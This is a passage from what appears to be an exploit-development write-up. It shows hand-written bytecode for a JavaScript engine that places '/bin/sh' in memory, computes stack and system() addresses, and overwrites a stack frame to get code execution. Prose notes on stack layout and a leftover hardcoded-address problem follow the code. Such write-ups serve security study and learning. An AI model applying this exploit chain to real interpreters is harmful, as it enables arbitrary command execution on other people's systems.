 ```
# Reset var_buf
get_loc 36
put_loc 16

# Write "/bin/sh" to memory
push_const8 flt_bin_sh_str
put_loc 47

# Write address to stack by computing it from our known stack address
fclosure8 float_add_raw
swap
push_i32 752
call2
put_loc 34

## Write system address (compute from known heap address)
fclosure8 float_add_raw
swap
push_i32 189814
call2
put_loc 35

# Offset var_buf
push_const8 flt_vb_offset_8
put_loc 17

# Overwrite sf. This will clobber var_buf, so no more put_loc/get_loc after this!
fclosure8 float_add_raw
swap
push_i32 2592
call2
put_loc 16

undefined
return
```

Two things to note:
* I added a directive at the top to tell my assembler to fix the stack size to 1 to get a predictable layout. Without this, the stack size depends on the code, and different stack sizes lead to different stack locations for `var_buf[0]`.
* I used `swap` and `dup` instructions to juggle around the different addresses on the JS Stack without having to use local variables, since that would complicate the whole `get_loc` / `set_loc` logic.


As you can see, we have eliminated most hardcoded addresses in favor of dynamically computed ones. There remains one problem though: we are still using a hardcoded address to overwrite `var_buf` when offsetting it by 8 bytes. In theory, we just need to get a stack address, then use our `float_add_raw` function to construct the 8-offset `var_buf` address. The problem is that to use the function, the value needs to have a float tag, and we can't write the float tag to memory without first offsetting `var_buf` by 8, what a nightmare! 
